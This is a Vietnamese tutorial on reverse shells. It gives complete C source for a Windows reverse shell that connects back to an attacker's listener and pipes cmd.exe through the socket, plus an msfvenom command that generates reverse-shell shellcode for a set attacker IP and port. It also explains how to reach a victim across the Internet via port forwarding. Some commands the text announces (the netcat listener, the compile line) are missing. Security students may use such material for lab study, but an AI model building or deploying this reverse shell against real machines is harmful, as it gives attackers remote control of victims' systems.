

Reverse shell là 1 loại RCE mà khi đó nạn nhân là phía mở cổng tới máy hacker. Đây là loại tấn công có thể bypass firewall và khó để ngăn chặn. Tuy nhiên, loại tấn công này sẽ khiến hacker bị lộ thông tin server.
Cách đơn giản nhất để tạo listener đó là sử dụng netcat của linux/unix. Ví dụ, trên linux, chạy lệnh sau để mở port 4444 với -l là listen, -v là verbose, -p là port:
Code C này sẽ mở reverse shell trên Windows ở máy nạn nhân, đối với Linux mình sẽ để code ở dưới.
/* shell.cpp author: @cocomelonc windows reverse shell without any encryption/encoding */ #include <winsock2.h> #include <stdio.h> #pragma comment(lib, "w2_32") WSADATA wsaData; SOCKET wSock; struct sockaddr_in hax; STARTUPINFO sui; PROCESS_INFORMATION pi; int main(int argc, char* argv[]) { // listener ip, port on attacker's machine char *ip = "127.0.0.1"; short port = 4444; // init socket lib WSAStartup(MAKEWORD(2, 2), &wsaData); // create socket wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL); hax.sin_family = AF_INET; hax.sin_port = htons(port); hax.sin_addr.s_addr = inet_addr(ip); // connect to remote host WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL); memset(&sui, 0, sizeof(sui)); sui.cb = sizeof(sui); sui.dwFlags = STARTF_USESTDHANDLES; sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock; // start cmd.exe with redirected streams CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi); exit(0); }
WSAStartup khởi tạo những thứ cần thiết để sử dụng Winsock DLL.
Sau đó, khai báo wSock, hax và dùng WSAConnect để kết nối đến remote host.
Sử dụng memset và biến sui để tuỳ chỉnh thuộc tính Windows của vùng nhớ bằng cấu trúc STARTUPINFO (sui). Vùng nhớ sẽ được xử lí input, output, error qua wSock.
Cuối cùng khởi chạy CMD ở vùng nhớ đó bằng CreateProcess với config sui
Để compile, bạn đọc có thể dùng lệnh sau trên linux:
Hoặc có thể compile bằng IDE như Dev C++ với compiler option: -lws2_32 -lwsock32 (khi gọi compiler)

Bạn đọc có thể test trong mạng LAN. Nếu chỉ có 1 máy có thể sử
dụng máy ảo như mình, với cài đặt mạng bridge để setup máy ảo có IP
local riêng. Nếu VirtualBox bị lỗi không chọn được card mạng khi setup
bridge, có thể reinstall VirtualBox để fix.
Nếu muốn test giữa 2 máy trên Internet thì cần port forward máy attacker thông qua default gateway router.
Bạn đọc có thể tham khảo tại: Here
Trên Linux chúng ta có thể sử dụng msfvenom để gen shell code mong muốn như lệnh dưới:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.1.6 LPORT=4444 -f rb